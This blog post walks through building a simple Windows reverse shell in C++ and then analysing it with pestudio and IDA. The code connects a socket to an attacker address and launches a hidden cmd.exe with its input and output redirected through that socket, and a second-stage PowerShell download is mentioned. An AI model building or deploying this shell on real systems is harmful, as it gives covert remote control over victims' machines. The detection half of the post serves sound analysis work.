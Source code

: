 ```yaml
---
layout: post
title: Malware Functionality Analysis: Simple Reverse Shell
---
```


# Malware Functionality Analysis: Simple Reverse Shell

## Implementing the Reverse Shell

Let's first analyse what we require to develop this functionality.

1. A socket with which commands and communication will be routed to the server,
2. A `cmd.exe` process that acts as the shell,
3. A listening server on the attacking machine (netcat will be sufficient enough for this).

---

### Creating the Connection

I will keep this section brief because creating and connecting a socket is a trivial procedure and there are many tutorials out there explaining how it can be done.

```c++
SOCKET tcpConnect(std::string address, std::string port) {
    getaddrinfo(address.c_str(), port.c_str(), ...);
    
    /*
     * Create a TCP socket connection.
     *
     * It's important that we use WSASocket here instead of the normal socket 
     * function and without the WSA_FLAG_OVERLAPPED flag.
     */
    SOCKET s = WSASocket(..., SOCK_STREAM, IPPROTO_TCP, ...);
    
    connect(s, ...);
    
    return s;
}
```

Note that we require the [`WSASocket`](https://msdn.microsoft.com/en-us/library/windows/desktop/ms742212(v=vs.85).aspx) function because the (non-overlapped) socket will be required to work with I/O redirection with the shell's handles.

---

### Creating the Shell Process

The `cmd.exe` process acts as the shell so the application must create this as a separate process using the [`CreateProcess`](https://msdn.microsoft.com/en-us/library/windows/desktop/ms682425(v=vs.85).aspx) function specifying the executable's path and also setting the stdin/stdout/stderr handles to the socket specified in the [`STARTUPINFO structure`](https://msdn.microsoft.com/en-us/library/windows/desktop/ms686331(v=vs.85).aspx).

```c++
void createShell(void) {
    SOCKET s = tcpConnect(ADDRESS, PORT);
    
    STARTUPINFOA si;
    ZeroMemory(&si, sizeof(si));
    si.cb = sizeof(si);
    
    /*
     * We specify what values we want to use.
     * STARTF_USESTDHANDLES specifies that we want to use stdin/stdout/stderr.
     * STARTF_USESHOWWINDOW specifies that we want to control how the window appears.
     */
    si.dwFlags = STARTF_USESTDHANDLES | STARTF_USESHOWWINDOW;
    
    /*
     * Set stdin/stdout/stderr to be redirected through the socket.
     */
    si.hStdError = si.hStdInput = si.hStdOutput = (HANDLE)s;
    
    /*
     * The process's window will not be shown.
     */
    si.wShowWindow = SW_HIDE;
    
    /*
     * This structure will contain the handle to the shell's 
     * process which will be used to block the application 
     * until the shell exits.
     */
    PROCESS_INFORMATION pi;
    
    /*
     * Retrieve the path of the cmd.exe executable's path.
     * We use this so that it will systemmatically retrieve the 
     * system directory which may not always be "C:\Windows\system32".
     *
     * NOTE: Depending on your application's architecture, this
     * value will change under the hood, i.e. if your application is 
     * a 32-bit process, it will get the SYSWOW64 directory whereas 
     * the 64-bit counterpart will get the system32 directory. Make 
     * sure your target file exists in its corresponding directory 
     * when doing something like this. Alternatively, you can force 
     * to not swap to SYSWOW64 by explicitly calling 
     * Wow64DisableWow64FsRedirection.
     * (https://msdn.microsoft.com/en-us/library/windows/desktop/aa365743(v=vs.85).aspx).
     */
     char szSysDirectory[MAX_PATH + 1];
     ZeroMemory(szSysDirectory, MAX_PATH + 1);
     GetSystemDirectoryA(szSysDirectory, MAX_PATH);
     
     /*
      * Append "\cmd.exe" onto the system directory.
      */
     std::string cmdExe = szSysDirectory;
     cmdExe += "\\cmd.exe";
     
     /*
      * Create the cmd.exe process.
      * Make sure that the process inherits the handles.
      */
     CreateProcessA(cmdExe.c_str(), ..., true, 0, ..., &si, &pi);
     
     /*
      * Block until the cmd.exe process has completed.
      */
     WaitForSingleObject(pi.hProcess, INFINITE);
}
```

Essentially:

```
                                                                      
   +-------------+               +-------------+                                    +-------------+
   |             |    spawns     |             |                                    |             |
   |             | -- cmd.exe -> |             |                                    |             |
   | Application |    process    |    Shell    | -- stdin  --.      redirected      |   Server    |
   |             |               |  (cmd.exe)  | -- stdout -----<--- through --->-- |  (netcat)   |
   |             |    passes     |             | -- stderr --'       socket         |             |
   |             | -- socket --> |             |                                    |             |
   |             |    handle     |             |                                    |             |
   +-------------+               +-------------+                                    +-------------+
```

Once the `cmd.exe` process has been created, we call [`WaitForSingleObject`](https://msdn.microsoft.com/en-us/library/windows/desktop/ms687032(v=vs.85).aspx) to block the application until the shell process has finished execution.

---

### Demonstration

![ShellExample](/images/2018-04-25-Malware-Functionality-Analysis-Simple-Reverse-Shell/shellexample.png)

Note that there is no window for the `cmd.exe` shell process spawned from the application because we used the `SW_HIDE` value for the `STARTUPINFO.wShowWindow` member. It functions nicely using native utilities and can even be used to call PowerShell albiet a little buggy.

![ShellExample](/images/2018-04-25-Malware-Functionality-Analysis-Simple-Reverse-Shell/shellexample1.png)

Using a single PowerShell one-liner, a 2nd-stage malware can be downloaded and invoked on the system like so:

![ShellExample](/images/2018-04-25-Malware-Functionality-Analysis-Simple-Reverse-Shell/shellexample0.png)

The PowerShell script will download a file (specified in `$url`) onto the local system (specified by `$local`), then it invokes the downloaded file using `invoke-item`. The sample 2nd-stage malware is demonstrated with a shortcut file that contains a PowerShell message box script.

```

   +-------------+                 +-------------+                                    +-------------+
   |             |                 |             |                                    |             |
   |             |     calls       |             |   downloads          invokes       |             |
   |    Shell    | - PowerShell -> | PowerShell  | -- remote -- and -- downloaded --> |  2nd-stage  |
   |  (cmd.exe)  |     script      |             |     file              file         |   malware   |
   |             |                 |             |                                    |             |
   |             |                 |             |                                    |             |
   +-------------+                 +-------------+                                    +-------------+
```

---

### Static Analysis

Looking at the strings under pestudio, there exists some suspicious import and miscellaneous strings that relate back to the shell creation.

![ShellExample](/images/2018-04-25-Malware-Functionality-Analysis-Simple-Reverse-Shell/shellexample2.png)

Obviously, the application shows signs of networking activity via the imported Winsock library (ws2_32.dll) and its functions. On top of that, it shows the `\cmd.exe` string that identifies that it may interact with it in some way. To confirm that it is being used as a reverse shell we must dig into the disassembly.

After analysis of the import table and some strings, one method that I find relatively quick and effective is by identifying where these are referenced within the code sections. This can be done with IDA by opening up the respective tab (e.g. Imports or Strings), double clicking an entry and then following any listed references to the code. For this example, following one of the Winsock library functions references the `tcpConnect` disassembly:

![ShellExample](/images/2018-04-25-Malware-Functionality-Analysis-Simple-Reverse-Shell/shellexample3.png)

Tracing backwards from this routine presents the `createShell` routine:

![ShellExample](/images/2018-04-25-Malware-Functionality-Analysis-Simple-Reverse-Shell/shellexample4.png)

(Small note: the `var_34` below the `STARTUPINFO` structure's standard handle assignment is the `STARTUPINFO.wShowWindow` member set to `SW_HIDE` which has the value of `0`.)

![ShellExample](/images/2018-04-25-Malware-Functionality-Analysis-Simple-Reverse-Shell/shellexample5.png)

Obviously, the disassembly nicely follows that of the C++ code implementation listed above. The main focus is that a socket was created in which it was used to set the `STARTUPINFO.hStdInput`, `STARTUPINFO.hStdOuput` and `STARTUPINFO.hStdError` values of a `cmd.exe`'s `CreateProcess`. This pattern of execution flow can identify this type of reverse shell.
